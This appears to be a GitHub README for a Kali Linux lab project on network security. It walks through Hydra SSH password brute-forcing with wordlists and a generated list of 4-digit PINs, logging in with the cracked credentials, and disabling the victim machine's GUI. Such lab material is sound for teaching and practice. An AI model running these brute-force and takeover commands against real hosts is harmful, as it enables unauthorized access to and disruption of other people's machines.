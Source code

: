 # CyberSleuth-Exploring-Network-Security
---
##### This project is intended to run on Kali Linux virtual machine.
### Instructions
To connect physical machines using Kali Linux on VirtualBox, we had to ensure that the virtual machines have access to the same network. A bridged adapter in networking connects the virtual machine directly to the physical network, enabling it to appear as a distinct device on the network, sharing the host's IP address. Once the VMs are connected, the following steps can be followed.
### 1. Password Decryption with Hydra
#### Method 1: Alphanumerical Password Lists
We will use comprehensive collection of commonly used passwords, to aid in our password decryption efforts. fasttrack.txt and rockyou.txt are two popular password lists.

Navigate to this diectory:
```bash
#!/bin/bash
cd /usr/share/wordlists
```
Run hydra to test different possible passwords.
```bash
hydra -l user -P fasttrack.txt ssh://target_ip -V -F
```
#### Method 2: Numerical Password Guessing
Generate all possible 4 digit passwords combinations with this python script
```python
with open("four_digit_combinations.txt", "w") as f:
   	for i in range(10000):
       	f.write("{:04d}\n".format(i))
```
Execute .py file in terminal
```bash
python four_digit_generator.py
```
Hydra brute-force attack
```bash
hydra -l user -P four_digit_combinations.txt -t 4 -V -o hydra_output.txt ssh://target_ip
```
### 2. Using SSH to Gain Control of a Host Computer
Once the attacker has obtained valid credentials, they can use SSH to connect to the target host computer. The command to initiate an SSH connection is:
```bash
ssh username@target_ip
```
Upon connecting, SSH prompts for the password associated with the provided username. The attacker enters the obtained password.

### 3. Disabling the Graphical User Interface (GUI) 
Now that attacker has gained access to victim machine there is scope for damage.
To disable GUI temporarily:
```bash
sudo systemctl isolate multi-user.target
```
To enable the GUI temporarily:
```
sudo systemctl isolate graphical.target
```
